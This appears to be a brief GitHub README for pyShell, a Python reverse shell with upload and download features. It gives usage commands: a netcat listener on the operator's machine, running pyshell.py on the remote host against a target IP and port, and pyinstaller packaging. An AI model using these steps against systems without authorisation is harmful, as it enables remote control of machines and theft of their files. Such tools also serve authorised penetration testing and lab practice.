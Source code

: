 # pyShell

pyShell is a reverse shell with upload/download functionality. Deploy and execute pyShell.py on the remote system and catch with netcat.

Usage: on your local system run.      
       nc -lvp <port number>
       on the remote system run.       
       python3 pyshell.py -t <target ip> -p <port number>
  
Requirements: Remote system must have python3 installed, or pyshell.py must be compiled with pyinstaller.

Recommendation: Install rlwrap and prefix local receiver command with rlwrap for improved tab completion.
                rlwrap nc -lvp <port number>

